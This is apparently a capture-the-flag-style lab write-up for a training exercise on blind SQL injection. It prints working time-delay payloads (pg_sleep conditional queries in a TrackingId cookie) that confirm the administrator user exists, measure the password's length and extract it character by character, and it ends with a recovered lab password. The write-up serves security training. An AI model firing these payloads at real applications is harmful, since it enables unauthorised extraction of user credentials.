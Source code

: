 Title: Blind SQL injection with time delays and information retrieval
Level: PRACTITIONER
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

# Walkthrough:
Sending request to root of site with cookie TrackingId changed to contain exploit:
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
It made application sleep.

Next payload: 
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
We get response with delay so we know, that username administrator exists.

We add `+AND+LENGTH(password)>1` to calculate length of administrator's password.

Password is made from 20 characters.

Next payload is dedicated to iterate through all combintations and to "guess" administrator's password char by char.
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

<img width="1066" height="136" alt="image" src="https://github.com/user-attachments/assets/1d327738-83a2-4605-8d02-9de8cd9239a5" />
Now we need to iterate through that process 20 times to get full password.

`58u4n167z9yiemmiu9a0`



